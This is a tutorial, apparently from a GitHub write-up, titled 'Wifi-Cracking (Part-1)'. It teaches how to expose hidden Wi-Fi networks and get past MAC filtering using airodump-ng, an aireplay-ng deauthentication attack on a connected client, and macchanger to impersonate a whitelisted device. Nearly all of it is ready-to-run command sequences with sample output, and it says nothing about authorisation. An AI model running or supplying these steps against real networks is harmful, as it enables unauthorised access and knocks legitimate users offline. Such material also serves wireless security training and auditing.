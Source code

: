 # Wifi-Cracking (Part-1) [ HIDDEN NETWORKS / MAC FILTERING]


In this writeup we are going to learn how to gain access on networks and bypass their security features , we will be covering  following types of networks:

- Target Hidden networks
- Bypass MAC filtering
- Methods to gain access on
  - Captive portals
  - WEP, WPA, WPA2
  - Fake Access Points
  - WPA Enterprise

these are main topics but there are many subtopics in each main topic which we will discuss in depth so just follow us.

Let's begin with **HIDDEN NETWORKS**, a hidden network is one that does not broadcast its name or **ESSID** and problem with this types of networks are we can't connect even they are open networks, the solution to this problem is **airodump-ng** and **deauth auth**

**NOTE : Use your wireless adapter in monitor mode and use your  wireless adapter name in commands  whatever it is in our case we use wlan0**

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

```
simply to identify Hidden networks see **ESSID* field and there will be no name or <length : 0>
in the place so copy its MAC Address and run airodump-ng

```
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```
(Don't quit this operation)

Sometimes just running the airodump-ng  will give you the name of the  network or just use **deauth attack** to anyone of the client which is connected to that network

```bash
root@kali:~# aireplay-ng --deauth 4 -a 63:16:F0:EC:76:F3 -c 33:90:E9:50:A8:F4 wlan0

```
Hit enter after some packet the name of network will be available

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```

Now you get the name we want to connect with this network for this :

**NOTE : You cannot connect any network in monitor mode so reset your wireless adapter to managed mode because monitor mode is only used to capture the packets**

there are many options to do this either use **airmon-ng stop wlan0mon** or **iwconfig wlan0 mode managed** use any of the command as your wish or just simply disconnect your wireless apadter and connect it once again it will do your job and run .

```bash
root@kali:~# service network-manager start

```

![](img/access/g1.jpeg)
Now,
- Go to your wifi options select the options *connect to hidden wifi network*
- select security option and write the name you got.
- It will connect it successfully to a hidden network.

---
##### MAC FILTERING

**NOTE: wireless card in monitor mode**

Another chance you will be not able to connect an open network even if you know it key because that router must be using **mac filtering**, since MAC Address is unique to each network device, Routers can use **mac filtering** to allow/deny devices from connecting based on mac address, it works on :

- Using a blacklist- allow all MACs to connect except the ones in the list
- Using a whitelist- deny all MACs from connecting except ones in the list.

At first lets see how to bypass blacklist method

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-06 10:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN               XOXO

```

Run airodump-ng on that specific network to see clients connected to it

```bash
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```
---

```bash
CH  1 ][ Elapsed: 45 sec ][ 2020-05-06 10:37                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3   80:E9:59:77:4F:99  -33   0 -21      0       9

```
Output suggest that the client with this 80:E9:59:77:4F:99 address is in whitelist thats why it connected to it change your MAC address of wireless card to same as connected client

**NOTE: For connecting network change mode to managed**
(disconnect the card and again connect to machine) and use **macchanger** tool change MAC address

```bash
root@kali:~# ifconfig wlan0 down
root@kali:~# macchanger -m 80:E9:59:77:4F:99 wlan0

```
this command will to do the job see if you get any error or you want to change MAC Address in different way you can do it
Now if you go to wifi-settings and you will be able to connect to it because now you are in the whitelist.

Hope you learn something intersting just keep moving link to [Part-2]()
